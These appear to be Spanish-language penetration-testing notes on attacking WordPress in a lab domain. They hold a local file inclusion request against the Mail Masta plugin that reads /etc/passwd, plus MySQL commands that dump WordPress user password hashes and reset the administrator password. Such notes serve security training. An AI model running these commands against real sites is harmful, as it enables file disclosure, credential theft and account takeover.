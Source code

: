 ### MAIL MASTA 

- unauthenticate SQLi
- LFI

```bash
curl http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

## POST EXPLOTACION

Una vez ya dentro del servidor, si podemos obtener las credenciales de la base de datos del archivo **/wordpress/wp-config.php** podemos realizar los siguientes cambios:

**extraer usuarios y contraseñas**

```sql
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

**cambiar contraseña de administrador**

````sql
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
``